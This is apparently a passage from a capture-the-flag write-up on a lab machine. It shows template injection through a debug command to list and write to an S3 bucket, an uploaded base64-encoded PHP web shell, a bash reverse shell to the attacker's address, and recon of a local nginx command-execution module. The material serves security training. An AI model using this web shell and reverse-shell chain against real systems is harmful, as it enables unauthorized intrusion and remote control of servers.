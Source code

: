 Enumerating the bucket _website_:
```
email={{ .DebugCmd "aws s3 ls s3://website" }}
```

Encoding PHP code to Base64 to write into the bucket:
```
echo "<?php system(\$_REQUEST['cmd']); ?>" | base64
```

Writing the PHP code into _/tmp/cmd.php_:
```
email={{ .DebugCmd "echo -n PD9waHAgc3lzdGVtKCRfUkVRVUVTVFsnY21kJ10pOyA/Pgo= | base64 -d > /tmp/cmd.php" }}
```

Adding the PHP script to the S3 bucket:
```
email={{ .DebugCmd "aws s3 cp /tmp/cmd.php s3://website/cmd.php" }}
```

Testing command execution:
```
http://10.10.11.113/cmd.php?cmd=id
```

Command execution works and can be used to gain a reverse shell:
```
GET /cmd.php?cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.6/9001 0>&1'
```

After URL-encoding the request and sending it, the listener on my IP and port 9001 starts a reverse shell as _www-data_.

## Privilege Escalation

Some of the running ports were also found with the initial scan and there is also port 8000 running on localhost:
```
0.0.0.0:4566
127.0.0.1:8000
0.0.0.0:9000
0.0.0.0:9001
(...)
```

The file _/etc/nginx/sites-enabled/default_ shows another web service on port 8000 with the _command on_ parameter enabled:
```
(...)
server {
        listen 127.0.0.1:8000;
        location / {
                command on;
        }
```

This parameter is from the [NginxExecute](https://github.com/limithit/NginxExecute) module to execute shell commands through GET, POST and HEAD methods.
The default payload does not work:
```
curl -g "http://127.0.0.1:8000/?system.run[id]"

curl: (52) Empty reply from server
```

